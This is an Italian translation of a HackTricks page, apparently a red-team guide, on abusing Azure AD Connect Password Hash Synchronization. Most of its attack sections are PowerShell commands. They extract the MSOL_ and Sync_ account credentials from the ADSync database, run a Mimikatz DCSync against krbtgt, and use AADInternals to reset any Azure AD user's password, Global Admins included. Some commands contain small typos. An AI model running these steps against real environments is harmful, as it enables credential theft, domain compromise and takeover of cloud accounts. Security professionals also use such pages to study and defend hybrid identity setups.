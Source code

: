 # Az - PHS - Sincronizzazione dell'hash della password

<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team di HackTricks AWS)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Informazioni di base

[Dalla documentazione:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **La sincronizzazione dell'hash della password** è uno dei metodi di accesso utilizzati per realizzare l'identità ibrida. **Azure AD Connect** sincronizza un hash, dell'hash, della password di un utente da un'istanza di Active Directory locale a un'istanza di Azure AD basata su cloud.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

È il **metodo più comune** utilizzato dalle aziende per sincronizzare un AD locale con Azure AD.

Tutti gli **utenti** e un **hash degli hash delle password** vengono sincronizzati dall'AD locale ad Azure AD. Tuttavia, le **password in chiaro** o gli **hash originali** non vengono inviati ad Azure AD.\
Inoltre, i **gruppi di sicurezza integrati** (come gli amministratori di dominio...) non vengono **sincronizzati** in Azure AD.

La **sincronizzazione degli hash** avviene ogni **2 minuti**. Tuttavia, per impostazione predefinita, la **scadenza della password** e la **scadenza dell'account** non vengono **sincronizzate** in Azure AD. Quindi, un utente il cui **password dell'AD locale è scaduto** (non cambiato) può continuare ad **accedere alle risorse di Azure** utilizzando la vecchia password.

Quando un utente dell'AD locale vuole accedere a una risorsa di Azure, l'**autenticazione avviene su Azure AD**.

**PHS** è richiesto per funzionalità come **Protezione dell'identità** e Servizi del Dominio AAD.

## Pivoting

Quando PHS è configurato alcuni **account privilegiati** vengono automaticamente **creati**:

* L'account **`MSOL_<installationID>`** viene automaticamente creato nell'AD locale. A questo account viene assegnato un ruolo **Directory Synchronization Accounts** (vedi [documentazione](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) il che significa che ha **permessi di replica (DCSync) nell'AD locale**.
* Viene creato un account **`Sync_<nome del server ADConnect locale>_installationID`** in Azure AD. Questo account può **reimpostare la password di QUALSIASI utente** (sincronizzato o solo cloud) in Azure AD.

Le password dei due account privilegiati precedenti sono **memorizzate in un server SQL** sul server dove è installato **Azure AD Connect.** Gli amministratori possono estrarre le password di quegli utenti privilegiati in chiaro.\
Il database si trova in `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

È possibile estrarre la configurazione da una delle tabelle, essendo una criptata:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

La **configurazione criptata** è crittografata con **DPAPI** e contiene le **password dell'utente `MSOL_*`** nell'AD locale e la password di **Sync\_\*** in AzureAD. Pertanto, compromettendo queste è possibile ottenere privilegi nell'AD e in AzureAD.

È possibile trovare una [panoramica completa su come queste credenziali sono memorizzate e decifrate in questa presentazione](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Trovare il **server Azure AD Connect**

Se il **server su cui è installato Azure AD Connect** è connesso al dominio (raccomandato nella documentazione), è possibile trovarlo con:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Abuso di MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Puoi anche utilizzare [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) per ottenere queste credenziali.
{% endhint %}

### Abusing Sync\_\*

Compromettere l'account **`Sync_*`** è possibile **reimpostare la password** di qualsiasi utente (compresi gli Amministratori Globali)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
È anche possibile **modificare le password solo degli utenti del cloud** (anche se ciò è inaspettato)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
È anche possibile estrarre la password di questo utente.

{% hint style="danger" %}
Un'altra opzione sarebbe quella di **assegnare permessi privilegiati a un service principal**, a cui l'utente **Sync** ha **permessi** per fare, e poi **accedere a quel service principal** come metodo di privesc.
{% endhint %}

### SSO senza soluzione di continuità

È possibile utilizzare SSO senza soluzione di continuità con PHS, che è vulnerabile ad altri abusi. Controllalo in:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Riferimenti

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
